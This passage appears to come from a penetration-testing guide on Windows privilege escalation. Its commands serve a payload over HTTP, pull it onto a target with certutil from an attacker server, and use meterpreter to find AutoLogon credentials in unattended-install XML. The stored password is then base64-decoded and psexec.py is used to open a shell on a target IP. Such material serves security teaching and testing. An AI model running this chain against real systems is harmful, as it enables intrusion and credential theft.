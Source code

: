 We'd normally try to establish initial access by exploiting a service but we can run the built-in Python module `SimpleHTTPServer` to quickly launch an HTTP server to serve files from a directory containing the payload that can be downloaded to the target. Simply run it in the target directory, and it will host the contents over HTTP on the specified port.

```
python -m SimpleHTTPServer 80
```

If we already have access to the system, we can use the `certutil` command on the target windows system to download the payload and then execute it.
```
certutil -urlcache -f http://<server_ip>/payload.exe payload.exe
```

After the payload runs, the meterpreter session should start. Use could try to use meterpreter's in-built search to search for the type of files you're interested in.

```
search -f <file>.xml
```

Look for `<AutoLogon>` tag, this should have hard-coded credentials. We'd know any password is encoded if the `<PlainText>` tag is set to false.

```
<AutoLogon>
	<Password>
		<Value>QWRtaW5AMTIz</Value>
		<PlainText>false</PlainText>
	</Password>
	<Enabled>true</Enabled>
	<Username>administrator</Username>
</AutoLogon>
```

Use kali's base64 decoder to extract the credentials. You can output using `-o` to a file if you'd like:

```
base64 -d password.txt 
```

The password could be used through something like PsExec.
#### Psexec Python Script

Psexec is a windows executable which can't be ran on a Linux system. We can use the `psexec.py` which is a python implementation of the software. 

```
psexec.py Username@Target <cmd_to_execute_on_system>
```
Example: You can run psexec.py against the target and try to execute a shell using cmd.exe:
```
psexec.py Administrator@10.63.45.88 cmd.exe
```

### PowerSploit to find Unattended Installation files
